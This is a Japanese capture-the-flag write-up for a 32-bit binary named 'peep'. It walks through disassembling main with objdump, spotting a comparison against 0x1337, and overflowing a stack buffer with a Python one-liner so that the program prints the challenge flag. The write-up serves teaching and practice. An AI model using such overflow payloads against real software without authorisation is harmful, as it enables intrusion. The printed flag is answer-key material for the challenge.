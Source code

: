 # peep
初手で`file`コマンドを叩きます。

```bash=
$ file peep
peep: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=603e5405425a4d9120b032c02734622920b2e1bc, not stripped
```

32bitの実行ファイルであるので, とりあえず実行します。
```bash=
$ ./peep 
hoge
key is 0x0
```

入力を1回求められた後にkeyのアドレスらしきものが表示されます。

よくわからないので逆アセンブルします。これはradare2でもobjdumpでもokです。今回はobjdumpを使用します。

```bash=
$ objdump -d -M intel --no ./peep

./peep:     file format elf32-i386

~~~ 略 ~~~
08048476 <main>:
 8048476:	lea    ecx,[esp+0x4]
 804847a:	and    esp,0xfffffff0
 804847d:	push   DWORD PTR [ecx-0x4]
 8048480:	push   ebp
 8048481:	mov    ebp,esp
 8048483:	push   ebx
 8048484:	push   ecx
 8048485:	sub    esp,0x20
 8048488:	call   80483b0 <__x86.get_pc_thunk.bx>
 804848d:	add    ebx,0x1b73
 8048493:	mov    DWORD PTR [ebp-0xc],0x0
 804849a:	mov    eax,DWORD PTR [ebx-0x4]
 80484a0:	mov    eax,DWORD PTR [eax]
 80484a2:	sub    esp,0x4
 80484a5:	push   eax
 80484a6:	push   0x20
 80484a8:	lea    eax,[ebp-0x1c]
 80484ab:	push   eax
 80484ac:	call   8048330 <fgets@plt>
 80484b1:	add    esp,0x10
 80484b4:	sub    esp,0x8
 80484b7:	push   DWORD PTR [ebp-0xc]
 80484ba:	lea    eax,[ebx-0x1a80]
 80484c0:	push   eax
 80484c1:	call   8048320 <printf@plt>
 80484c6:	add    esp,0x10
 80484c9:	cmp    DWORD PTR [ebp-0xc],0x1337
 80484d0:	jne    80484eb <main+0x75>
 80484d2:	sub    esp,0x8
 80484d5:	lea    eax,[ebx+0x40]
 80484db:	push   eax
 80484dc:	lea    eax,[ebx-0x1a73]
 80484e2:	push   eax
 80484e3:	call   8048320 <printf@plt>
 80484e8:	add    esp,0x10
 80484eb:	mov    eax,0x0
 80484f0:	lea    esp,[ebp-0x8]
 80484f3:	pop    ecx
 80484f4:	pop    ebx
 80484f5:	pop    ebp
 80484f6:	lea    esp,[ecx-0x4]
 80484f9:	ret    
 80484fa:	xchg   ax,ax
 80484fc:	xchg   ax,ax
 80484fe:	xchg   ax,ax
~~~ 略 ~~~
```

コードを読んでみると, `0x80484d0`番地で`jne`(Jump Not Equal)命令が実行されているせいで, `0x80484e3`番地の`printf`が実行されていないことがわかります。

```bash=
$ python -c 'import sys;sys.stdout.buffer.write(b"A"*16 + b"\x37\x13\x00\x00")' | ./peep
key is 0x1337
flag is taskctf{ch3ck_7h3_l0c4710n_0f_v4r14bl3s!!}
Segmentation fault (core dumped)
```